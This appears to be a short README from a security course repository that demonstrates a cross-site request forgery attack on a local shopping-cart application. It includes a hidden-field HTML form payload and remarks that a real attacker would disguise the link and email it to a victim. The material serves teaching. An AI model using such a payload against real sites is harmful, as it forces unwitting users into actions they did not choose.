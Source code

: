 # Example: CSRF Attack

The sole purpose of this web application is to provide a manipulated HTML page.

We can access this page via the following link:

``` 
URL: http://localhost:8080/index.html
```

In a real attack, we would disguise the link and send it in an email 
to the victim.

What the user cannot see is that the website contains an 
**HTML form with hidden fields** that can be **sent to the shopping cart application**.

```HTML
    <form method="post" action="https://localhost:8443/controller">
        <input type="hidden" name="name" value="Hacker's Book"/>
        <input type="hidden" name="quantity" value="666"/>
        <input type="submit" name="action" value="Add" />
    </form>
```

*Egon Teiniker, 2017-2025, GPL v3.0*
